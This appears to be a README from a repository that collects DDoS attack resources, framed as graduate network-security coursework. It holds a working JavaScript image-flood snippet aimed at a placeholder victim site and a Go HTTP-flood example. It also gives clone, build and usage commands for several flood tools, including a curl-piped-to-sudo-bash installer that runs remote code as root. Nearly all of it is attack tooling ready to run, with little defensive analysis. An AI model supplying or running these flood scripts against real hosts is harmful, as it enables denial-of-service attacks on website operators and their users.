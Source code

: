 # DDoS
Snippets of code and resources related to DDoS attacks for graduate coursework on network security


## Table of Contents

- [imgflood](#imgflood-Layer-7-flood-attack)
- [Raven-Storm Toolkit](#Raven-Storm-Toolkit)
- [ufonet](#ufonet)
- [DDoS Infinite HTTP GET](#DDoS-Infinite-HTTP-GET)
- [Golang-httpflood](#Golang-httpflood)
- [DDoS-Ripper](#DDoS-Ripper)
- [DDoS Scripts](#DDoS-Scripts)

## imgflood Layer 7 flood attack
- Link: [An introduction to JavaScript-based DDoS](https://blog.cloudflare.com/an-introduction-to-javascript-based-ddos/)

```
function imgflood() {
  var TARGET = 'victim-website.com'
  var URI = '/index.php?'
  var pic = new Image()
  var rand = Math.floor(Math.random() * 1000)
  pic.src = 'http://'+TARGET+URI+rand+'=val'
}
setInterval(imgflood, 10)
```

## Raven-Storm Toolkit
- Link: [Raven-Storm Toolkit GitHub](https://github.com/Taguar258/Raven-Storm)

```
curl -s https://raw.githubusercontent.com/Taguar258/Raven-Storm/master/install.sh | sudo bash -s
```

## ufonet
- Link: [ufonet GitHub](https://github.com/epsylon/ufonet)

You can automatically get all required libraries using (as root):
```
python3 setup.py install
```
For manual installation, on Debian-based systems (ex: Ubuntu), run:
```
sudo apt-get install python3-pycurl python3-geoip python3-whois python3-crypto python3-requests python3-scapy libgeoip1 libgeoip-dev
```
On other systems such as: Kali, Ubuntu, ArchLinux, ParrotSec, Fedora, etc... also run:
```
pip3 install GeoIP
pip3 install python-geoip
pip3 install pygeoip
pip3 install requests
pip3 install pycrypto
pip3 install pycurl
pip3 install whois
pip3 install scapy-python3
```

## DDoS Infinite HTTP GET
- Link: [DDoS HTTP GET GitHub](https://github.com/Konstantin8105/DDoS)

```
func main() {
	workers := 100
	d, err := ddos.New("http://127.0.0.1:80", workers)
	if err != nil {
		panic(err)
	}
	d.Run()
	time.Sleep(time.Second)
	d.Stop()
	fmt.Println("DDoS attack server: http://127.0.0.1:80")
	// Output: DDoS attack server: http://127.0.0.1:80
}
```

## Golang-httpflood
- Link: [Golang-httpflood GitHub](https://github.com/Leeon123/golang-httpflood)

Install Golang
[Golang Download & Installation](https://go.dev/doc/install) 

Change Linux Resource Limit
```
ulimit -n 999999
```

Clone Repo
```
git clone https://github.com/Leeon123/golang-httpflood.git
```

Header.txt format
```
Accept: text/html
User-agent: Wget
Referer: http://google.com
```

Usage
```
cd golang-httpflood
go build httpflood.go
./httpflood  <url> <threads> <get/post> <seconds> <header.txt/nil>
```

## DDoS-Ripper
- Link: [DDoS-Ripper GitHub](https://github.com/palahsu/DDoS-Ripper)

```
sudo apt install git 
git clone https://github.com/palahsu/DDoS-Ripper.git 
cd DDoS-Ripper 
$ ls 
$ python3 DRipper.py OR python2 DRipper.py
```

## DDoS Scripts
- Link: [DDoS Scripts](https://github.com/PraneethKarnena/DDoS-Scripts)
